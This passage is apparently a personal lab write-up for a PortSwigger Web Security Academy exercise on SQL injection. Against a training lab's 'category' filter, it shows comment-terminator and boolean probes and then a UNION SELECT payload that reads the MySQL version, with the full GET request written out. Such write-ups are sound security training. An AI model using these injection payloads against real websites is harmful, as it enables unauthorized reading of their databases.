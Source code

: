 ![img](media/ab624ee5f035e5bf01871000dad8c44c.png)

With v\$instance the server returns an error message.

08 - SQL injection attack, querying the database type and version on MySQL and Microsoft
========================================================================================

This lab contains a SQL injection vulnerability in the product category filter.
You can use a UNION attack to retrieve the results from an injected query.

To solve the lab, display the database version string. (Make the database
retrieve the string: '8.0.32-0ubuntu0.20.04.2')

Reference: https://portswigger.net/web-security/sql-injection/cheat-sheet

Generated link:
https://0aab0018030112cfc1c781f9007c009c.web-security-academy.net/

Filtering using GET parameter “category”: "/filter?category=Accesories"

/filter?category=Accesories -\> Return 4 items

/filter?category=Accessories';\# -\> Return 4 items, the query is finished

/filter?category=Accessories'+and+'1'='1 -\> Return 4 items

/filter?category=Accessories'+and+'1'='0 -\> Return 0 items

/filter?category=Accessories'+union+select+0,\@\@version;\# -\> Print version

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
GET /filter?category=Accessories'+union+select+0,@@version;# HTTP/2
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/d73f7c2bf420a4a86d4f12af288688ee.png)
